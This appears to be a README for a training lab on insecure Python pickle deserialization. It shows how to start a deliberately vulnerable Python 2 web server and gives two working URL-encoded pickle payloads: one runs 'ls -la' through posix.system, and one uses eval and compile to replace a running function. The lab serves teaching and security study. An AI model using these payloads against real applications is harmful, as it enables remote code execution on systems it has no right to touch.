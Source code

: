 # Example 2: Modify Existing Function

## Project Setup

To startup an example navigate into the directory and start a docker container with the following command:  

```bash
sudo docker run -it --rm -v $(pwd):/app -p 8080:8080 python:2 bash
```  

This will start a docker container for Python 2.7. From here navigate into the directory and start the webserver with the following command:  

```bash
cd /app  
pip install -r requirements.txt
python index.py
```

## Using Payloads

With the webserver started, we can begin querying input with the 'pickle' parameter.

Use the included generate_pickle.py script to generate malicious input. You would then want to encode your input in URL form. This can be done in Burp Suite or [here](https://www.urlencoder.org/).

The following is an example payload to ```ls```.

```bash
cposix%0Asystem%0Ap1%0A%28S%27ls%20-la%27%0Ap2%0Atp3%0ARp4%0A.
```

You can see in the output of the server side that we have executed the ```ls``` command. What if we wanted to do something more malicious. Our next goal will be to overwrite an existing function. So long as the server does not error out, we will always call the ```finished``` function. Using the deserialization bug, we can replace this function.

To do this, use the following payload, or generate it with generate_pickle.py.

The idea is that we evaluate a compile function, and then pass in properly formatted python code. This allows us to execute arbitray Python code in the interpreter and affect the runtime environment. The following payload will modify the ```finished``` function until the application is restarted.

```bash
c__builtin__%0Aeval%0Ap1%0A%28S%27eval%28compile%28%22%22%22global%20finished%5Cndef%20finished%28%29%3A%5Cn%20%20%20%20return%20%5C%27hacked%5C%27%22%22%22%2C%20%5C%27%3Cstdin%3E%5C%27%2C%20%5C%27exec%5C%27%29%29%27%0Ap2%0Atp3%0ARp4%0A.
```

